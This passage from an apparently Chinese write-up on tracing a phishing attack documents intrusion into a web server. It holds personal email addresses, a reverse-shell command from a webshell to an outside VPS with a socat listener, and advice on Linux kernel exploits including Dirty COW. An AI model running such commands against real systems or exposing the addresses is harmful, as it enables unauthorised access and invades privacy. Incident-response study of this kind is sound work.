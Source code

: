58. `a0000213.txt:fanxued79193@163.com`
59. `a0000221.txt:fjfzpy@163.com`
60. `a0000227.txt:fon@163.com`
61. `a0000259.txt:guangdk@163.com`
62. `a0000311.txt:huhuanqiang00161@163.com`
63. 

### 5.4 提权

#### 5.4.1 CVE-2013-2094CVE-2013-1763提权

查看apache日志目录发现没有权限。

1. `[/var/www/]$ls -al /var/log/apache2/`
2. `ls: cannot open directory /var/log/apache2/: Permission denied`

内核版本为`3.5.0-23`尝试提权。

1. `[/var/www/]$cat /etc/issue`
2. `Ubuntu 12.04.2 LTS \n \l`
3. 
4. `[/var/www/]$uname -an`
5. `Linux medidor2 3.5.0-23-generic #35~precise1-Ubuntu SMP Fri Jan 25 17:15:33 UTC 2013 GNU/Linux`

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386740_5c4a81b4d5f71.png!small)

1. `WebShell反弹`
2. `[/var/www/]$cd /var/tmp;./pty xxx.xxx.xxx.xxx 443`
3. 
4. `外网VPS监听`
5. `socat file:`tty`,echo=0,raw tcp-listen:443`

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386756_5c4a81c4d9de3.png!small)

实际测试`CVE-2013-2094CVE-2013-1763`均无法提权。

1. `CVE-2013-2094`
2. `Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu`
3. `12.04/12.04.1/12.04.2 x64) - 'perf_swevent_init' Local Privilege Escalation (3)`
4. 
5. `CVE-2013-1763`
6. `Linux Kernel < 3.5.0-23 (Ubuntu 12.04.2 x64) - 'SOCK_DIAG' SMEP Bypass Local Privilege Escalation`

**5.4.2 脏牛提权**

祭出大杀器CVE-2016-5195脏牛 理论上通杀 2.6.22 < 3.9 (x86/x64)的内核版本。

> 在本地环境提权测试过程中发现i386架构下使用cowroot提权时EXP会破坏源文件导致提权失败。而使用dirtycow-mem仅修改内存则没有问题但是存在内核崩溃的风险。这两个EXP都是利用/proc/self/mem提权前一个修改文件后一个修改内存。

如图所示  
![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386778_5c4a81da779d6.png!small)

使用dirtycow-mem.c提权时需要注意i386架构下编译前需要将源代码中libc路径修改为目标系统libc路径否则执行时找不到文件。
